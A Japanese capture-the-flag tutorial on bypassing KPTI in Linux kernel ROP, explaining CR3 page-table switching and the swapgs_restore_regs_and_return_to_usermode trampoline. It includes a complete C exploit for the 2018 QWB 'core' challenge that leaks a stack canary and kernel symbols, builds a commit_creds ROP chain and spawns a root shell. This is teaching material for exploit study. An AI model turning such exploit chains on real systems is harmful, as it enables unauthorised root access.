




# Kernel ROP with KPTI bypass

[KPTI](https://www.kernel.org/doc/html/latest/x86/pti.html) とは `カーネルページテーブル分離`(Kernel page-table isolation)のことで、カーネル空間とユーザ空間でそれぞれ別のページテーブルのセットを使います。これはカーネルのメモリ管理に根本的な変化をもたらしました。

KPTI は主に、史上最大級の CPU ハードウェア脆弱性である Meltdown を修正するために考案されました。簡単に言うと、CPU のパイプライン設計(アウトオブオーダー実行と投機実行)の脆弱性を利用して、ユーザ空間からはアクセスできないカーネル空間のデータを取得するもので、サイドチャネル攻撃の一種です。

**KPTI は同時に、カーネルページテーブル内のユーザアドレス空間に属する部分から実行権限も取り除きました。これにより、ret2usr は完全に過去のものになりました**。

KPTI(カーネルページテーブル分離)が有効な場合、**これまでのように swapgs ; iret で直接ユーザ空間に戻ることはできません**。ユーザ空間に戻る前に、**ユーザプロセスのページテーブルに切り替え直す必要があります**。

周知のとおり、Linux は**4 段のページテーブル**構造(PGD->PUD->PMD->PTE)を採用しており、CR3 制御レジスタに現在の PGD のアドレスを格納します。そのため、KPTI が有効な場合、ユーザ空間とカーネル空間の間の切り替えには CR3 の切り替えが伴います。切り替えを高速にするため、カーネルは、カーネル空間の PGD とユーザ空間の PGD という 2 つのページグローバルディレクトリテーブルを、連続したメモリ上に置いています(2 つのテーブルが 1 ページ 4k ずつで合計 8k、カーネル空間用が低いアドレス、ユーザ空間用が高いアドレスです)。こうすることで、**CR3 のビット 13 を反転するだけで、ページテーブルの切り替えが完了します**。



説明しておくべきこととして、**この 2 つのページテーブルにはどちらもユーザメモリ空間の完全なマッピングがありますが、ユーザ用のページテーブルにはカーネルコードのごく一部(システムコールのエントリポイント、割り込み処理など)しかマッピングされておらず、カーネルメモリ空間の完全なマッピングはカーネル用のページテーブルにしかありません**。下図のとおりです。左側は KPTI が有効でない場合のページテーブルのレイアウト、右側は KPTI が有効な場合のページテーブルのレイアウトです。



**KPTI は同時に、カーネルページテーブル内のユーザアドレス空間部分に対応するページのトップレベルのエントリから実行権限(NX)も取り除きました。これにより、ret2usr は完全に過去のものになりました**。

システムコールのエントリでユーザ空間のページテーブルからカーネル空間のページテーブルに切り替えるコードのほかに、カーネルは `arch/x86/entry/entry_64.S` に、カーネル空間のページテーブルからユーザ空間のページテーブルに切り替え直す関数 `swapgs_restore_regs_and_return_to_usermode` も用意しています。そのアドレスは `/proc/kallsyms` で取得できます。

ソースのアセンブリコードは書くのが大変なので、IDA でリバースして基本的なアセンブリのロジックを確認できます。



実際に操作する際は、前のほうのスタック操作はスキップでき、`mov rdi, rsp` から直接始めて構いません。この関数は、おおよそ次の操作にまとめられます。

```assembly
mov  rdi, cr3
or rdi, 0x1000
mov  cr3, rdi
pop rax
pop rdi
swapgs
iretq
```

そのため、次のようなスタックレイアウトを配置すれば十分です。

```
↓   swapgs_restore_regs_and_return_to_usermode
    0 // padding
    0 // padding
    user_shell_addr
    user_cs
    user_rflags
    user_sp
    user_ss
```

## 例題：強網杯2018 - core

今回は、起動スクリプトのカーネル起動パラメータ `-append` に `pti=on` オプションを追加して、KPTI 保護を明示的に有効にします。

```bash
qemu-system-x86_64 \
-m 64M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr pti=on" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

この状態で先ほどの ROP exp を実行すると、もう動作せず、かえって segmentation fault が発生することが分かります。これは、**カーネル空間のページテーブルでは、ユーザアドレス空間部分に対応するページのトップレベルのエントリに実行権限がなくなっている**ためです。



そのため、ユーザ空間に戻る前に、まずカーネル空間のページテーブルから切り替え直す必要があります。ここでは、権限昇格が完了した後、手動で `iretq` 命令を直接呼び出す代わりに、`swapgs_restore_regs_and_return_to_usermode` 関数を使ってユーザ空間に戻れば十分です。

最終的な exp は次のとおりです。ROP chain 中のユーザ空間に戻る部分を、`swapgs` と `iret` の 2 つの独立した命令から、`swapgs_restore_regs_and_return_to_usermode` 関数の呼び出しに置き換えています。注意点として、この関数の先頭には不要な操作がたくさんあるため、リバースによって、この関数中の `mov rdi, cr3` 命令の位置を手動で計算する必要があります。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>

/**
 * Kernel Pwn Infrastructures
**/

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t kernel_base = 0xffffffff81000000, kernel_offset;

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(void)
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    log_success("[*] Status has been saved.");
}

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/**
 * Challenge Interface
**/

void core_read(int fd, char *buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void set_off_val(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void core_copy(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

/**
 * Exploitation
**/

#define COMMIT_CREDS 0xffffffff8109c8e0
#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008da

void exploitation(void)
{
    FILE *ksyms_file;
    int fd;
    char buf[0x1000], type[0x10];
    size_t addr;
    size_t canary;
    size_t rop_chain[0x100], i;

    log_info("[*] Start to exploit...");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if(fd < 0) {
        log_error("[x] Failed to open the /proc/core !");
        exit(EXIT_FAILURE);
    }

    /* get addresses of kernel symbols */

    log_info("[*] Reading /tmp/kallsyms...");

    ksyms_file = fopen("/tmp/kallsyms", "r");
    if(ksyms_file == NULL) {
        log_error("[x] Failed to open the sym_table file!");
        exit(EXIT_FAILURE);
    }

    while(fscanf(ksyms_file, "%lx%s%s", &addr, type, buf)) {
        if(prepare_kernel_cred && commit_creds) {
            break;
        }

        if(!commit_creds && !strcmp(buf, "commit_creds")) {
            commit_creds = addr;
            printf(
                SUCCESS_MSG("[+] Successful to get the addr of commit_cread: ")   
        	   "%lx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    for(i = 0; i < 10; i++) {
        rop_chain[i] = canary;
    }
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = prepare_kernel_cred;
    rop_chain[i++] = POP_RDX_RET + kernel_offset;   // exec:1
    rop_chain[i++] = POP_RCX_RET + kernel_offset;   // exec:3
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + kernel_offset;  // exec:2
    rop_chain[i++] = commit_creds;
    rop_chain[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22 + kernel_offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = (size_t) get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;   // userland stack balance
    rop_chain[i++] = user_ss;

    /* exploitation */

    log_info("[*] Start to execute ROP chain in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```
